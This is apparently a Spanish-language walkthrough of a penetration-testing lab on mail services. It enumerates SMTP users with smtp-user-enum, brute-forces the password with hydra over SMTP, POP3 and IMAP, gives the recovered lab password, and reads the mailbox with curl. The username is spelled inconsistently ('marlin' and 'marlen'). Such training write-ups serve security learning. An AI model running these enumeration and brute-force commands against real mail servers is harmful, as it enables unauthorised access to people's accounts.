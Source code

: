 # Common services - mail

## What is the available username for the domain inlanefreight.htb in the SMTP server?

- Añadimos el dominio en `/etc/hosts`

- Nos dan una lista de usuarios, `users.list`, que nos sirve para hacer fuerza bruta

	```bash
	smtp-user-enum -M RCPT -U users.list -D inlanefreight.htb -t $target
	```

	Encontrando como correo válido `marlin@inlanefreight.htb`

## Access the email account using the user credentials that you discovered and submit the flag in the email as your answer.

- Encontraríamos la pass en cualquier protocolo (imap, pop3 ó smtp)

	```bash
	hydra -l 'marlen@inlanefreight.htb' -P pws.list smtp://$target
	hydra -l 'marlen@inlanefreight.htb' -P pws.list pop3://$target
 	hydra -l 'marlen' -P pws.list imap://$target
	```

	La pass es `poohbear`

- Nos conectamos por `imap` utilizando `curl` del siguiente modo 

	```bash
	 curl --user marlin@inlanefreight.htb:poohbear "imap://$target"
	 # Encontramos la carpeta INBOX, aunque el comando que se muestra a continuación no muestra más información
	 curl --user marlin@inlanefreight.htb:poohbear "imap://$target/INBOX"
	 # El siguiente comando trataría de mostrar todos los correos disponibles
	 curl --user marlin@inlanefreight.htb:poohbear "imap://$target/INBOX;UID=1:*"
	```